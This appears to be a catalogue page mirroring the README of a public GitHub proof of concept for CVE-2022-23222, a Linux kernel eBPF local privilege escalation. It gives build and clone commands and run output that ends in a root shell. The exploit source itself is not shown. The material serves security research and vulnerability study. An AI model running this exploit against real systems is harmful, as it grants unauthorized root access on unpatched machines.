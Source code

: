 # CVE-2022-23222

CVE-2022-23222: Linux Kernel eBPF Local Privilege Escalation

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/tr3ee](https://github.com/tr3ee) |
| Url      | [https://github.com/tr3ee/CVE-2022-23222](https://github.com/tr3ee/CVE-2022-23222)                                               |
| Stars    | 528                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-23222

Chinese writeup: https://tr3e.ee/posts/cve-2022-23222-linux-kernel-ebpf-lpe.txt

For educational/research purposes only. Use at your own risk.

## Build & Run

```bash
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```


## Get the content

```
git clone https://github.com/tr3ee/CVE-2022-23222
cd CVE-2022-23222
```

{% embed url="https://github.com/tr3ee/CVE-2022-23222" %}

<figure><img src="https://avatars.githubusercontent.com/u/26628940?v=4" alt=""><figcaption><p>tr3ee</p></figcaption></figure>

